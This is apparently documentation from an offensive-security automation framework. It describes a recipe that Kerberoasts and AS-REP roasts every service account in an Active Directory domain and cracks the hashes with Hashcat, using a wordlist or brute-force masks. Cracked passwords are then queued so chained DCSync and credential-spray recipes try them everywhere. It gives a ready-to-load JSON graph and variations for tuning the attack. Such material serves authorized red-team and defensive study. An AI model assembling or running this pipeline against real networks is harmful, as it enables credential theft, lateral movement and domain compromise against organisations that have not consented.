

# Kerberoast and crack

Roast every kerberoastable account in the domain, push the hashes
into a local Hashcat session for cracking, and feed any cracked
plaintext passwords back into the credential store so subsequent
runloop passes try them everywhere.

---

## Goal

Produce a stream of cracked plaintext credentials from a single LDAP
session. Anything cracked is automatically stored and queued for the
next pass.

---

## Pipeline



---

## Block-by-block

- [`OPEN_SESSION_KERBEROS`](../blocks/sessions.md) — open a Kerberos
  session against a DC using any Kerberos-usable credential the
  store currently knows about.
- [`CMD_KERBEROAST`](../blocks/attacks.md) — roasts every SPN-bearing
  account reachable on this session. Emits one item per hash with
  fields `ttype`, `user`, `domain`, `hashcatres`. Also performs
  AS-REP roasting in the same pass.
- [`HASHCAT_WORDLIST`](../blocks/transforms.md) — spawns a local
  Hashcat session, auto-detects the hash type from the secret prefix
  / `stype`, and emits a fresh `credential` item with `stype=password`
  for every crack. Set `wordlist` to a file you actually have on the
  Hashcat host.
- [`CREDENTIAL_QUEUE`](../blocks/queues-sinks.md) — the cracked
  credentials feed `SOURCE_CREDENTIALS_NEW` on the next runloop pass
  so a [DCSync](dcsync-from-creds.md) or
  [credential spray](credential-spray.md) recipe wired into the same
  graph immediately tries them everywhere.

The ATT&CK tags are wired up at the registry level: the kill chain
report for any cracked credential automatically shows
`T1110.002 ← T1558.003` — Brute Force Wordlist following
Steal-or-Forge Kerberos Ticket Kerberoasting.

---

## Saved graph

```json
{
  "id": "kerberoast-and-crack",
  "name": "Kerberoast and crack",
  "description": "Roast every SPN, crack the hashes, queue plaintexts.",
  "nodes": [
    {"id": "tgt-1",     "block_type_id": "SOURCE_TARGETS_NEW",     "params": {}, "position": {"x":   0, "y":  60}},
    {"id": "isdc-1",    "block_type_id": "FILTER_TARGETS",          "params": {"key": "isdc", "op": "eq", "value": "true"}, "position": {"x": 260, "y": 60}},
    {"id": "cred-1",    "block_type_id": "SOURCE_CREDENTIALS_NEW", "params": {}, "position": {"x":   0, "y": 260}},
    {"id": "mux-1",     "block_type_id": "CREDMUX",                "params": {}, "position": {"x": 260, "y": 260}},
    {"id": "open-1",    "block_type_id": "OPEN_SESSION_KERBEROS",  "params": {"atype": "TGT"}, "position": {"x": 560, "y": 160}},
    {"id": "roast-1",   "block_type_id": "CMD_KERBEROAST",         "params": {}, "position": {"x": 840, "y": 160}},
    {"id": "hashcat-1", "block_type_id": "HASHCAT_WORDLIST",       "params": {"hashcat": "hashcat", "wordlist": "rockyou.txt", "maxruntime": 10}, "position": {"x": 1120, "y": 160}},
    {"id": "cq-1",      "block_type_id": "CREDENTIAL_QUEUE",       "params": {}, "position": {"x": 1400, "y": 160}},
    {"id": "drop-1",    "block_type_id": "TERMINATOR_SINK",        "params": {}, "position": {"x": 1120, "y": 320}}
  ],
  "edges": [
    {"id": "e1",  "from_node": "tgt-1",     "from_port": "target",     "to_node": "isdc-1",   "to_port": "target"},
    {"id": "e2",  "from_node": "isdc-1",    "from_port": "match",      "to_node": "open-1",   "to_port": "host"},
    {"id": "e3",  "from_node": "cred-1",    "from_port": "credential", "to_node": "mux-1",    "to_port": "credential_in"},
    {"id": "e4",  "from_node": "mux-1",     "from_port": "kerberos",   "to_node": "open-1",   "to_port": "credential"},
    {"id": "e5",  "from_node": "open-1",    "from_port": "session",    "to_node": "roast-1",  "to_port": "session"},
    {"id": "e6",  "from_node": "open-1",    "from_port": "error",      "to_node": "drop-1",   "to_port": "data"},
    {"id": "e7",  "from_node": "roast-1",   "from_port": "result",     "to_node": "hashcat-1","to_port": "credential"},
    {"id": "e8",  "from_node": "hashcat-1", "from_port": "result",     "to_node": "cq-1",     "to_port": "credential"},
    {"id": "e9",  "from_node": "hashcat-1", "from_port": "error",      "to_node": "drop-1",   "to_port": "data"}
  ]
}
```

!!! info "Routing CMD_KERBEROAST inputs"
    `CMD_KERBEROAST` is registered as an ATTACK block accepting
    `pair`, `target` and `credential` inputs. The wiring above
    drives it from the session output of `OPEN_SESSION_KERBEROS`;
    in practice you may prefer to wire `target` / `credential` (or
    a `pair` produced by `ID_SPLITTER_PAIR`) directly and skip the
    explicit `OPEN_SESSION_KERBEROS` block.

---

## Assembled view


---

## Variations

- **Bruteforce instead of wordlist.** Swap `HASHCAT_WORDLIST` for
  `HASHCAT_BRUTEFORCE` with `brutemask=?l?l?l?l?l?d?d` and
  `brutemax=8` for short-and-numeric passwords.
- **AS-REP only.** Insert a `FILTER` with `key=ttype, op=contains,
  value=asrep` between `CMD_KERBEROAST` and `HASHCAT_WORDLIST` so
  only AS-REP hashes go to the cracker.
- **Save hashes to disk too.** Wire `roast-1.result` into a
  `FILE_SINK` with `filename=kerb_hashes.jsonl` in parallel with
  `HASHCAT_WORDLIST`; the same items flow to both consumers.
- **Crack on a beefier host.** Set the `hashcat` parameter to the
  absolute path of a GPU-backed binary; the local Hashcat utility
  session will run it instead of the default `hashcat` on PATH.
